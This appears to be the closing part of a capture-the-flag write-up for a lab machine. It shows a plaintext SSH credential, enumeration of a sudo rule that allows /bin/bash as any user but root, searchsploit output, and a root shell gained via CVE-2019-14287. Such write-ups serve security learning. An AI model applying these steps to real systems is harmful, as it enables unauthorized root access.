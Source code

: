 Trying SSH, it worked.

ssh:james:hackerrules!

## Privilege Escalation

Checking sudo

```
sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

```
sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

```
searchsploit sudo 1.8 local privilege escalation
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
sudo 1.8.0 < 1.8.3p1 - 'sudo_debug' glibc FORTIFY_SOURCE Bypass + Privilege Escala | linux/local/25134.c
Sudo 1.8.14 (RHEL 5/6/7 / Ubuntu) - 'Sudoedit' Unauthorized Privilege Escalation   | linux/local/37710.txt
Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation                   | linux/local/42183.c
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

gcc not installed on target.

Using CVE-2019-14287

Exploit worked!

```
root@agent-sudo:~# id;hostname;ifconfig
uid=0(root) gid=1000(james) groups=1000(james)
agent-sudo
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.10.47.229  netmask 255.255.0.0  broadcast 10.10.255.255
        inet6 fe80::48:6eff:fe9e:c78a  prefixlen 64  scopeid 0x20<link>
        ether 02:48:6e:9e:c7:8a  txqueuelen 1000  (Ethernet)
        RX packets 1806  bytes 135149 (135.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1929  bytes 206108 (206.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
```